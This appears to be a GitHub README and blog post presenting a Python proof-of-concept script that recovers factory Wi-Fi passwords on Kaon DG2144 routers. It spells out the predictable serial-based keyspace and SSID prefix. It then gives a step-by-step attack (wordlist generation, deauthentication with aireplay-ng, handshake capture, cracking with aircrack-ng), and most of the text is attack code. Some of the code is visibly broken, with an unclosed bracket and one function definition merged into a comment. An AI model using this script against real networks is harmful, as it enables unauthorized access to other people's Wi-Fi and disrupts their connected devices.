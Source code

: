 # WIikaonWi
a script to take advantage of simple wifi credentials in the KAON DG2144 and other similar devices.
Wikaonwi: A Factory Wi-Fi Credential Vulnerability

Date: 1/21/25 9:35 PM

Today, I faced a setback when I was declined a position in the cyber security field due to a prior criminal conviction related to fraud. However, I refuse to let this discourage me. Instead, I am determined to showcase my skills and resilience by releasing another piece of my work. In a future post, I will also cover the details surrounding the charges that led to this situation. This is just one step in my journey, and I won’t allow past challenges to define my future.
Wikaonwi:

In the ever-evolving landscape of cybersecurity, vulnerabilities can often be found in the most unexpected places. One such vulnerability has been identified in the Kaon DG2144 router, where the factory Wi-Fi password is not as random as one might expect. This flaw can lead to the easy recovery of a device's Wi-Fi credentials, posing a significant risk to users. In this blog post, we will explore the details of this vulnerability, how it can be exploited, and provide a proof of concept for educational purposes.
Understanding the Vulnerability

The Kaon DG2144 router has a predictable pattern in its factory-set Wi-Fi passwords. Instead of being randomly generated, the passwords are based on the device's serial number, which follows a specific format. For example, consider the following serial numbers:


        

        BS10096321004321

        BS10096123001234

        BS10096XXX00XXXX

        

    

The passwords are constructed using a fixed prefix (BS10096) followed by a combination of numbers, making them susceptible to brute-force attacks. The predictable nature of these passwords means that an attacker can easily generate all possible combinations and attempt to gain access to the Wi-Fi network.These devices also have a prefixed SSID which makes them easier to identify being DG2144-XXXX
How We Can Exploit This Vulnerability

To exploit this vulnerability, an attacker can follow these steps:

    Generate All Possible Combinations: Using the known format of the password, generate all possible combinations based on the serial number structure. The format is as follows: BS10096(000-999)00(0000-9999).
    Scan for Target Wi-Fi Networks: Identify Wi-Fi networks that start with the SSID prefix DG2144-.
    Deauthenticate Connected Clients: Use a deauthentication attack to disconnect clients from the target Wi-Fi network, forcing the router to send a handshake when clients reconnect.
    Capture the Handshake: Monitor the network to capture the handshake, which contains the necessary information to crack the password.
    Crack the Handshake: Use the generated combinations to attempt to crack the captured handshake and recover the Wi-Fi password.

Proof of Concept Code

Below is a Python script that demonstrates the steps outlined above. This script is for educational purposes only and should not be used for malicious activities.


        
        
import subprocess
import time
import os
import re

# Replace wlan0 with your wireless interface
def generate_combinations():
    first_part = "BS10096"
    combinations = []

    for i in range(1000): 
        for j in range(10000): 
            combinations.append(f"{first_part}{i:03}00{j:04}")
    return combinations

def save_combinations_to_file(combinations, filename='combinations.txt'):
    with open(filename, 'w') as f:
        for combo in combinations:
            f.write(combo + '\n')

def scan_for_wifi():
    print("Scanning for Wi-Fi networks...")
    output = subprocess.check_output(["airodump-ng", "wlan0"], universal_newlines=True) 
    return output

def extract_bssid(output, target_ssid):
    bssid_pattern = re.compile(r'([0-9A-Fa-f:]{17})\s+.*\s+{}\s+'.format(target_ssid))
    bssids = bssid_pattern.findall(output)
    return bssids


def deauth_clients(bssid):
    print(f"Deauthenticating clients from {bssid}...")
    subprocess.run(["aireplay-ng", "--deauth", "10", "-a", bssid, "wlan0"]) 

def capture_handshake(bssid, output_file='captured_handshake.cap'):
    print(f"Capturing handshake for {bssid}...")
    subprocess.run(["airodump-ng", "--bssid", bssid, "-c", "6", "-w", output_file, "wlan0"]) 
    time.sleep(30)  # Wait for the handshake def crack_handshake(bssid, combinations_file='combinations.txt', handshake_file='captured_handshake.cap'):
    print(f"Cracking handshake for {bssid}...")
    subprocess.run(["aircrack-ng", "-w", combinations_file, "-b", bssid, handshake_file])

def print_banner():
    banner = r"""
                 d8, d8b                                                    d8,
                `8P  ?88                                                   `8P 
                      88b                                                      
 ?88   d8P  d8P  88b  888  d88' d888b8b   d8888b   88bd88b  ?88   d8P  d8P  88b
 d88  d8P' d8P'  88P  888bd8P' d8P' ?88  d8P' ?88  88P' ?8b d88  d8P' d8P'  88P
 ?8b ,88b ,88'  d88  d88888b   88b  ,88b 88b  d88 d88   88P ?8b ,88b ,88'  d88 
 `?888P'888P'  d88' d88' `?88b,`?88P'`88b`?8888P'd88'   88b `?888P'888P'  d88' 

    """                                                                          
    print(banner)                                                                 

def main():
    print_banner()
    target_ssid = "DG2144-"
    combinations = generate_combinations()
    save_combinations_to_file(combinations)

    # Scan for Wi-Fi networks
    output = scan_for_wifi()
    # Extract BSSID dynamically
    bssids = extract_bssid(output, target_ssid)
    if not bssids:
        print("No BSSID found for the target SSID.")
        return

    print("Available BSSIDs:")
    for bssid in bssids:
        print(bssid)

    # Select the first BSSID found
    selected_bssid = bssids[0
    # Deauthenticate clients
    deauth_clients(selected_bssid)
    # Capture the handshake
    capture_handshake(selected_bssid)
    # Crack the handshake
    crack_handshake(selected_bssid)
    
if __name__ == "__main__":
    main()

    

    

Conclusion

The vulnerability in the Kaon DG2144 router highlights the importance of strong, unpredictable passwords for network security. By understanding how such vulnerabilities can be exploited, users can take proactive measures to secure their devices. It is crucial to change factory-set passwords to unique, complex ones to mitigate the risk of unauthorized access. Always stay informed about potential vulnerabilities in your devices and take necessary precautions to protect your network.
